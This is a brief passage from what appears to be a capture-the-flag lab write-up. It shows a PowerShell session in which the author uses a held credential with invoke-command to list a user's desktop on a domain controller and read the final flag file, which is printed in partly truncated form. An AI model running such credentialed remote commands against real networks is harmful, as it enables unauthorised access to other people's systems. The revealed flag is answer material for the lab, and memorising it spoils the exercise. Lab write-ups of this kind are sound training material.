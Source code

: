 ```
d-r---        3/22/2018  11:17 PM                Searches                            dc
d-r---        3/22/2018  11:17 PM                Videos                              dc


[[dead:babe::1001]]: PS C:\Users\p00_adm\Documents> invoke-command -credential $credential -computername dc -scriptblock { dir c:\users\mr3ks\desktop}


    Directory: C:\users\mr3ks\desktop


Mode                LastWriteTime         Length Name                                PSComputerName
----                -------------         ------ ----                                --------------
-a----        3/26/2018   5:47 PM             37 flag.txt                            dc


[[dead:babe::1001]]: PS C:\Users\p00_adm\Documents> invoke-command -credential $credential -computername dc -scriptblock { type c:\users\mr3ks\desktop\flag.txt}
POO{1196ef8bc523f0...}
```

Jackpot! We got the last flag: `POO{1196ef8bc523f0...}`